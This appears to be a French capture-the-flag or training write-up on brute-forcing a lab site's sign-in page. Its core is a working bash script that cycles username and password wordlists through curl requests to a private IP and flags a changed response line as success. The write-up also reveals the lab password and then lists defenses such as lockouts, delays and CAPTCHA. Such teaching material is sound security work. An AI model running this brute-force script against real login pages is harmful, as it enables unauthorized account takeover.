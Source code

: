 # Explication
Sur la page ***Sign In*** on peut lancer un script brut force pour trouver les identifiants et mots de passe en envoyant les données dans l'URL:
```bash
IP="http://10.11.200.106/"
usernameFile="top-usernames-shortlist.txt"
curl "$IP?page=signin&username=&password=&Login=Login" > page.html
error=$(sed '37!d' page.html)
i=0
while read -r tryUserName
do
    passwdFile="10-million-password-list-top-1000.txt"
    while read -r tryPasswd
    do
        i=$((i+1))
        echo "TRY n$i : username=$tryUserName password=$tryPasswd"
        curl "$IP?page=signin&username=$tryUserName&password=$tryPasswd&Login=Login" > page.html
        check=$(sed '37!d' page.html)
        if [[ $check != $error ]]
        then
            echo "SUCCES! username: $tryUserName | password : $tryPasswd"
            exit
        fi
    done < $passwdFile
done < $usernameFile
```
Par ailleurs on constate que le nom de l'utilisateur n'a aucun intéret car non pris en compte pour l'accès.
Le mot de passe est : shadow
# Comment l'éviter ?
On peut éviter cette faille de multiples façons:
- Limiter le nombre de tentatives de connexion avant de bloquer le compte (peut être problématique + DDOS possible)
- Mettre un délai entre chaque tentative de connexion
- Utiliser des CAPTCHA

source : https://owasp.org/www-community/controls/Blocking_Brute_Force_Attacks
